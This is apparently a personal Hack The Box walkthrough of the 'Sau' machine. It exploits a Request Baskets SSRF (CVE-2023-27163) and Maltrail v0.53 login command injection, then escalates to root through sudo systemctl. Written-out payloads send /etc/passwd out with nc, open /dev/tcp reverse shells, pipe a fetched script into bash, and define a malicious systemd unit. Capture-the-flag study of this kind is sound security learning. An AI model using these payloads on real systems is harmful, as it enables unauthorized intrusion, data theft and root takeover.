

## Reconnaissance
### nmap 

```
nmap -sC -sV -oN sau_light 10.10.11.224
```


- Results:
	- Port 22 - SSH 
	- Port 80 - Filtered, it might HTTP
	- Port 55555 - unknown
- According to the result, the port 80 is filtered.

### Web Service
- Visit Port 55555, it's the Top Page of web service.
- This web service named 'Request Basket'

- Try to create basket - named hello

- Check the info related to basket - hello
```
http://10.10.11.224:55555/web/hello
```

- Access to the basket
```Target 
http://10.10.11.224:55555/hello
```
-  check the request log in information page
```
http://10.10.11.224:55555/web/hello
```

- Enum the source code for web browser
- Find some information about request basket 

### Request Basket 
- Research for it 
> [Request Baskets](https://rbaskets.in/) is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.

- Search exploit - no results
```
searchsploit "Request Basket"
```

- Search exploit from internet, find SSRF vulnerability - CVE-2023-27163

### CVE-2023-27163
> Request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.


## Exploit 

- About the request basket exploit, I can set up the Forwarded URL to any other target 
- Ex. 
	- My host address (10.10.16.107)
	- My python http server (10.10.16.107:9797)
	- My nc service (10.10.16.107:1337)
	- The internal service 
- I have tried a lot of target, and do some research.
- The idea is find a internal service or internal target then access it by SSRF
- So, I figure out the port 80 is filter in nmap result.
- I think it might be an internal service. 
- So, set up the forward URL to port 80 on localhost in victim 
```
http://127.0.0.1:80
```

- Access to /hello again, it will redirect to port 80 Top Page 
- The useful information in here is the page has a library - Maltrail v0.53

- Check the request log in /web/hello


### Maltrail v0.53
> **Maltrail** is a malicious traffic detection system, utilizing publicly available (black)lists containing malicious and/or generally suspicious trails, along with static trails compiled from various AV reports and custom user defined lists, where trail can be anything from domain name (e.g. `zvpprsensinaix.com` for [Banjori](http://www.johannesbader.ch/2015/02/the-dga-of-banjori/) malware), URL (e.g. `hXXp://109.162.38.120/harsh02.exe` for known malicious [executable](https://www.virustotal.com/en/file/61f56f71b0b04b36d3ef0c14bbbc0df431290d93592d5dd6e3fffcc583ec1e12/analysis/)), IP address (e.g. `185.130.5.231` for known attacker) or HTTP User-Agent header value (e.g. `sqlmap` for automatic SQL injection and database takeover tool). Also, it uses (optional) advanced heuristic mechanisms that can help in discovery of unknown threats (e.g. new malware).


- It also has exist vulnerability - Unauthenticated OS Command Injection in stamparm/maltrail in stamparm/maltrail
- Description 
> Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process.
- Payload 
```
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```


- So, it should have /login page, let try to change the forwarded URL 


### Exploit MalTrail Step
- Try to access /hello, it will redirect to /login on port 80
- It response "Login failed"


- Using Burp to intercept it 
- It will be a GET request to /hello
- But the response will show 'Login failed'
- Those results similar to request by browser
- Then I set up listener on port 1337 first
```
nc -nlvp 1337
```

- Craft the request in Burp Repeater to try to check the command injection is work or not. 
- Using the following payload in Burp Repeater to check the data from victim 
```
;`echo etc "hello test" |nc -N 10.10.16.107 1337`
```
- URL Encoding 
```
%3b%60echo+etc+%22hello+test%22+%7cnc+%2dN+10.10.16.107+1337%60
```

- Check nc get data back 

- Try to read /etc/passwd 
```
;`cat /etc/passwd |nc -N 10.10.16.107 1337`
```
- URL Encoding 
```
%3b%60cat+%2fetc%2fpasswd+%7cnc+%2dN+10.10.16.107+1337%60
```

- Check nc listener, the /etc/passwd content will back to nc 

- Change the payload as follow, but the reverse shell won't get back 
```
;`bash -i >& /dev/tcp/10.10.16.107/1337 0>&1`
```
- URL Encoding 
```
%3b%60bash+-i+%3e%26+%2fdev%2ftcp%2f10.10.16.107%2f1337+0%3e%261%60
```


- Try to pipe it to bash, it still won't get reverse shell back to nc 
```
;`bash -i >& /dev/tcp/10.10.16.107/1337 0>&1|bash`
```
- URL Encoding 
```
%3b%60bash+-i+%3e%26+%2fdev%2ftcp%2f10.10.16.107%2f1337+0%3e%261%7cbash%60
```

- But with above test, I am sure that the os command injection can set data back to my host
- So, I tried to change the way,
	1. I set up the shell to file
	2. Using python http server to transfer the shell file to victim and execute it.
```
bash -i >& /dev/tcp/10.10.16.107/1337 0>&1
```


- In burp repeater, using the following payload 
```
;`curl 10.10.16.107:9797/shell.sh|bash`
```
- URL Encoding
```
%3b%60curl+10.10.16.107%3a9797%2fshell.sh%7cbash%60
```
> Remember modify the GET method to POST, since I forget it at first, and it takes me a lot of time to find the issue.


- Check python http service log, it will add one log which is GET /shell.sh 

- Check the nc, the reverse shell will get back.

- Check current user 
```
id 
whoami
```

- Get user flag

#### Other method not success one

- I also tried to access vulnerable page by curl directly, but it won't replied the reverse shell back to nc. 
```
curl 'http://10.10.11.224' \ 
	--data 'username=%3b%60bash+-i+%3e%26+%2fdev%2ftcp%2f10.10.16.107%2f1337+0%3e%261%7cbash%60'
```

- I also generate python reverse shell and base 64 encode it.
```
curl 'http://10.10.11.224' \ 
	--data 'username=;`echo <python payload with base64>|base64 -d| bash`'
```


## Privilege Escalation 

- After get into the victim with puma

```
sudo -l
```

- Do some research for privilege escalation on systemctl

### Privilege escalation on systemctl
- According to the GTFObins, it has 2 different types
	1. execute from sudo 
	2. With SUID set, execute it to escalate
- According to investigation, the SUID set for systemctl

- So I tried the following first 
```
sudo systemctl
```
- But it will replied the error message 
```
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
```

- I think it failed then I also found [this article](https://cnblogs.com/zlgxzswjy/p/14781471.html)

- So I tried to create exploit service
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bub/bash -i >& /dev/tcp/10.10.16.107/1338 ->&1 2<&1"
[Install]
WantedBy=nulti-user.target
```


- Execute exp.service by systemctl with sudo
```
sudo /usr/bin/systemctl link /home/puma/exp.service
```
- I  get the following error  again.
```
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
```


- I check the [write up](https://blog.csdn.net/zrk3034197094/article/details/131806218) and find it mind cause from the password prompt won't show.
- So I set up the interaction shell by python
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- Then execute it again, it will ask puma's password, but I don't have that.

- And I think it is weird, since according to the command above,  it should be execute without password .
- Check user puma's permission again

- I think the permission may set up not only for the systemctl.
- So I tried to change name from exp to trail, then execute it again
```
mv exp.service trail.service
```

- It still ask for password

- According to GTFObins, I tried the following payload again, since I have solved the prompt problem
```
sudo systemctl
```
- It still ask for password.


- but  I check  the write up again, I should execute following command first 
```
sudo systemctl status trail.service
```
- Finally, the command response will stuck, then execute the following 
```
!sh
```

- I got the root permission 
- Check root user 
```
id 
whoami 
```


- Get root flag


## Reference 

### Write up 

- [HTB-sau](https://medium.com/@anekantsinghai/hack-the-box-sau-easy-8c30dc7f26b7)
- [Write up - sau](https://blog.csdn.net/zrk3034197094/article/details/131806218)
- [Discussion - sau](https://forum.hackthebox.com/t/official-sau-discussion/289685)

### Request Basket 

- [(GITHUB)Request Basket](https://github.com/darklynx/request-baskets)
- [Sample Web Page](https://rbaskets.in/web)
- [Request Basket Exploit Notes](https://notes.sjtu.edu.cn/s/MUUhEymt7)
- [CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)
- [NVD-CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)
- [POC - CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

### MalTrail 

- [(GITHUB)MalTrail](https://github.com/stamparm/maltrail)
- [MalTrail Exploit Example](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661)
- [Exploit MalTrail](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
- [(GITHUB)Exploit MalTrail](https://github.com/spookier/Maltrail-v0.53-Exploit)

### Systemctl privilege escalation 

- [escalate by systemctl step](https://www.cnblogs.com/zlgxzswjy/p/14781471.html)

- [Sudo Systemctl Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/)

- [(GTFOBins)Systemctl](https://gtfobins.github.io/gtfobins/systemctl/)
- [kb-vuln3（systemctl提权）](https://blog.csdn.net/m0_66299232/article/details/127478614)
- [Privilege Escalation: Systemctl (Misconfigured Permissions — sudo/SUID)](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)


### SSRF 

- [Blind SSRF To RCE Vulnerability Exploitation](https://www.resecurity.com/blog/article/blind-ssrf-to-rce-vulnerability-exploitation)
- [(HackTricks)SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)


###### tags: `HackTheBox`